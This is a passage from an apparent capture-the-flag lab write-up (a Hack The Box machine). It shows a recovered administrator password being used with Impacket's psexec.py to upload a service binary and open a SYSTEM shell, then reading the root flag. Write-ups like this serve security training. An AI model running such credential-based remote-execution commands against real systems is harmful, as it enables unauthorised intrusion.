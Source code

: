 
## Getting shell as Administrator
Now that we have the admin password `XtH4nkS4Pl4y1nGX`, we can use psexec to get a shell as admin.

```bash
root@darkness:~# psexec.py administrator:XtH4nkS4Pl4y1nGX@10.10.10.178
Impacket v0.9.22.dev1+20200513.101403.9a4b3f52 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.178.....
[*] Found writable share ADMIN$
[*] Uploading file UOTwocMg.exe
[*] Opening SVCManager on 10.10.10.178.....
[*] Creating service eWxW on 10.10.10.178.....
[*] Starting service eWxW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
6594c***************************
```